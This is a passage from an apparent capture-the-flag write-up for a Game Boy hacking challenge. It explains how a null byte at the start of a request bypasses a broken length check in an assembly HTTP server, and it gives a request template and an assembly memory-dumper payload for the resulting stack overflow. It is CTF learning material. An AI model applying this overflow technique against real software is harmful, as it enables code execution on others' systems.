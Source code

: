 Theoretically, all requests are [length-checked before handling](https://github.com/Muzuwi/fools24/blob/master/tools/gbhttp/gbhttp.asm#L73-L97), however this check is broken.
Putting aside the questionable HTTP compliance, the length check is broken and putting a null byte right at the start of a "request" will completely bypass the length check, allowing an overflow from the scratch buffer directly onto the stack when the [route handler](https://github.com/Muzuwi/fools24/blob/master/tools/gbhttp/gbhttp.asm#L99-L115) attempts to URL decode the parameters of a request.
We can then format a malicious request like so:
```
\0/secret?<INSERT_PAYLOAD_BYTES_THAT_ARE_WRITTEN_DIRECTLY_TO_THE_SCRATCH_BUFFER_HERE>
```
This gives us the ability to go beyond the scratch buffer directly onto the stack, allowing for code execution.
We can write our payload to the scratch buffer, followed by spraying the stack with the return address to the scratch buffer.

For writing the payload, I prepared this very broken dumper:
```asm
def STATUS_INIT            equ 0
def STATUS_WAITING_FOR_REQ equ 1
def STATUS_RECEIVED_REQ    equ 2
def STATUS_DONE            equ 3

SECTION "WRAM0", WRAM0[$C000]
_wRequestData:
    ds $800
wResponseData:
    ds $800

SECTION "HRAM", HRAM[$FF80]
hDriverStatus:
    ds 1

SECTION "ROM", ROM0[$0200]
DumperPayload:
    ld c, 255
    ld de, $41F0
    ld hl, wResponseData
.loop:
    ld a, [de]
    ld b, a

    swap a
    and $f
    add "0"
    ld [hli], a

    ld a, b
    and $f
    add "0"
    ld [hli], a

    inc de
    dec c
    jp nz, .loop
.done:
    ; Notify the harness that the job is finished
    ld a, STATUS_DONE
    ldh [hDriverStatus], a
.forever
    ld b, b
    jr .forever
```
This utilizes the same harness that is used by the original program, but here I instead dump 255 bytes from memory starting at a given address in register `de`.


[zzazz]: https://www.youtube.com/@TheZZAZZGlitch
[fools24]: https://fools2024.online/index.php
[muzuwifools]: https://github.com/Muzuwi/fools24
[b1f]: https://glitchcity.wiki/wiki/ItemDex/RB:085
[rgmedecomp]: https://www.youtube.com/watch?v=aF1Yw_wu2cM
[rgmemissingno]: https://www.youtube.com/watch?v=ZI50XUeN6QE
[pretemerald]: https://github.com/pret/pokeemerald
[pretred]: https://github.com/pret/pokered
[pretcrystal]: https://github.com/pret/pokecrystal
[sustools]: https://github.com/Muzuwi/fools24/tree/master/tools/sus